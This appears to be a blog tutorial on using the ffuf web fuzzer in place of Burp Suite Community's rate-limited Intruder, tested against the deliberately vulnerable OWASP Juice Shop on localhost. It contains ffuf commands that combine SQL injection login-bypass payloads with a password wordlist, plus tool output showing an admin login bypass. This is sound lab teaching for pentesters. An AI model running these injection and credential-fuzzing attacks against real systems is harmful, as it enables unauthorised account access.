 ```yaml
---
title:  "Use FFUF to bypass Burp Suite's Intruder attacks delay"
date: 2023-07-25
mathjax: true
layout: post
categories: tutorial
tags: burpsuite ffuf docker webapp
---
```


#### It is possible to use FFUF like alternative to bypass Burp Suite Community Edition's Intruder attacks delay? 

## *The answer is: Yes! you can.*

* * *
 
# PoC

Burp Suite Community Edition is very good to use the Intruder and it allow us to fuzz parameters in a Request. But, we know that if we don't have Burp Suite Professional Edition, Intruder will be slow.

This article explain how you can use FFUF as alternative to bypass the rate limit of Burp Suite Community Edition and so, improve your hacking ;)

# Summary

1. ¿What is FFUF?
2. Usage and examples
3. Conclusion and Final words

* * *

# 1. *¿What is FFUF?*

## FFUF

FFUF is a fast web fuzzer tool written in Go. It's common used for Pentesters to discover subdomains, directories and test multiples parameters of a Web Application. (Example: API fuzzing). 

[![asciicast](https://asciinema.org/a/211350.svg)](https://asciinema.org/a/211350)

You can find and download FFUF from official repo in Github: [https://github.com/ffuf/ffuf](https://github.com/ffuf/ffuf){:target="_blank"}

# 2. *Usage and examples*

First at all you need a request file. It can be generated by yourself or you can copy any request directly from Burp Suite.

*For this example I will test the OWASP Juice Shop application in localhost using Docker.* 

- Download: [https://hub.docker.com/r/bkimminich/juice-shop](https://hub.docker.com/r/bkimminich/juice-shop){:target="_blank"}

![login-portal-owasp-juice-shop](https://raw.githubusercontent.com/mateofumis/mateofumis.github.io/master/assets/img/use-ffuf-like-alternative-to-bypass-burp-suite-intruder-attacks-delay/login-portal-owasp-juice-shop.webp)

![burp-suite-request](https://raw.githubusercontent.com/mateofumis/mateofumis.github.io/master/assets/img/use-ffuf-like-alternative-to-bypass-burp-suite-intruder-attacks-delay/burp-suite-request.webp)

We can just copy the text and save as `"request.txt"`.

Once captured the request, we need to set where we want to fuzz the parameters. To do that we can open the request file with nano or vim.

![nano-editing-request](https://raw.githubusercontent.com/mateofumis/mateofumis.github.io/master/assets/img/use-ffuf-like-alternative-to-bypass-burp-suite-intruder-attacks-delay/nano-editing-request.webp)

I choice set `FUZZEMAIL` and `FUZZPASSWD` to then fuzzing with **FFUF**.

## Time to hack.

Now we can use the request file to fuzzing the parameters, so let's take a review of usage modes:

## Modes

```bash
-mode
Multi-wordlist operation mode. (default: clusterbomb) 
	-sniper
	-pitchfork
	-clusterbomb
```

## Example

```bash
ffuf -request request.txt --request-proto https -mode clusterbomb -w passwords.txt:FUZZPASSWD -w email-list.txt:FUZZEMAIL -u http://127.0.0.1:3000
```

With that command we are fuzzing the request testing each email and password with the payloads to bypass the log in portal.

We gonna try perform a SQL Injection, so we need to encode payloads as URL.

I will use CyberChef to encode and a list of payloads from PayloadsAllTheThings.

- CyberChef online: [https://gchq.github.io/CyberChef/](https://gchq.github.io/CyberChef/){:target="_blank"}

- PayloadsAllTheThings: [https://swisskyrepo.github.io/PayloadsAllTheThingsWeb/](https://swisskyrepo.github.io/PayloadsAllTheThingsWeb/){:target="_blank"}

*On Kali Linux you can install the both with:*

```bash
sudo apt install -y cyberchef payloadsallthethings
```

- List of payloads for SQL Injection: [https://swisskyrepo.github.io/PayloadsAllTheThingsWeb/SQL%20Injection/#authentication-bypass](https://swisskyrepo.github.io/PayloadsAllTheThingsWeb/SQL%20Injection/#authentication-bypass){:target="_blank"}

So copy and encode with CyberChef.

![cyberchef-encoding](https://raw.githubusercontent.com/mateofumis/mateofumis.github.io/master/assets/img/use-ffuf-like-alternative-to-bypass-burp-suite-intruder-attacks-delay/cyberchef-encoding.webp)

It is necessary add the recipe "Split" to separate each payload. In the field "Split delimiter" you need to set "%0A". *(See the image above).*

## Fuzzing

- FUZZEMAIL will be all the SQL Injection Payloads.
- FUZZPASSWD will be the classic "rockyou.txt" wordlist.

```bash
> ffuf -request request.txt --request-proto http -mode pitchfork -w /usr/share/wordlists/rockyou.txt:FUZZPASSWD -w /home/hackermater/Labs/Juice\ Shop/email-list.txt:FUZZEMAIL -mc 200 -u http://127.0.0.1:3000
         ____    ____             ____
        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://127.0.0.1:3000/rest/user/login
 :: Wordlist         : FUZZPASSWD: /usr/share/wordlists/rockyou.txt
 :: Wordlist         : FUZZEMAIL: /home/hackermater/Labs/Juice Shop/email-list.txt
 :: Header           : Accept-Language: en-US,en;q=0.5
 :: Header           : DNT: 1
 :: Header           : Cookie: language=en; welcomebanner_status=dismiss
 :: Header           : Sec-Fetch-Dest: empty
 :: Header           : Sec-Fetch-Site: same-origin
 :: Header           : User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
 :: Header           : Accept-Encoding: gzip, deflate
 :: Header           : Referer: http://127.0.0.1:3000/
 :: Header           : Sec-Fetch-Mode: cors
 :: Header           : Host: 127.0.0.1:3000
 :: Header           : Accept: application/json, text/plain, */*
 :: Header           : Content-Type: application/json
 :: Header           : Origin: http://127.0.0.1:3000
 :: Header           : Connection: close
 :: Data             : {"email":"admin@juice-sh.opFUZZEMAIL","password":"FUZZPASSWD"}
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200
________________________________________________

[Status: 200, Size: 799, Words: 1, Lines: 1, Duration: 1582ms]
    * FUZZEMAIL: '--'
    * FUZZPASSWD: qwerty

[Status: 200, Size: 799, Words: 1, Lines: 1, Duration: 2064ms]
    * FUZZEMAIL: '--'%20/%20%22--%22
    * FUZZPASSWD: iloveu

[Status: 200, Size: 799, Words: 1, Lines: 1, Duration: 1842ms]
    * FUZZEMAIL: '--'
    * FUZZPASSWD: adrian

[Status: 200, Size: 799, Words: 1, Lines: 1, Duration: 1827ms]
    * FUZZEMAIL: '--'%20/%20%22--%22
    * FUZZPASSWD: destiny

[WARN] Caught keyboard interrupt (Ctrl-C)
```

*We can check the login bypass on the web:*

![pwned-login-portal](https://raw.githubusercontent.com/mateofumis/mateofumis.github.io/master/assets/img/use-ffuf-like-alternative-to-bypass-burp-suite-intruder-attacks-delay/pwned-login-portal.webp)

# Conclusion and Final words ;)

This is a simple and powerful way to use an "Intruder" or Fuzzer with FFUF instead the Burp Suite's Intruder from Community Edition with multiples parameters and with whatever encoding you want.

*And finally, here is a useful tip:*

## *Rate limit*

Many times, when you are performing a pentest audit it's required a rate limit for seconds between requests.

```bash
-rate               
Rate of requests per second (default: 0)
```

#### *Example*

```bash
ffuf -request request.txt --request-proto https -mode pitchfork -w passwords.txt:FUZZPASSWD -w usernames.txt:FUZZUSERS -rate 5 

# It will perform 5 requests per seconds
```

Happy Hacking!!

----

## Author: Mateo Fumis 
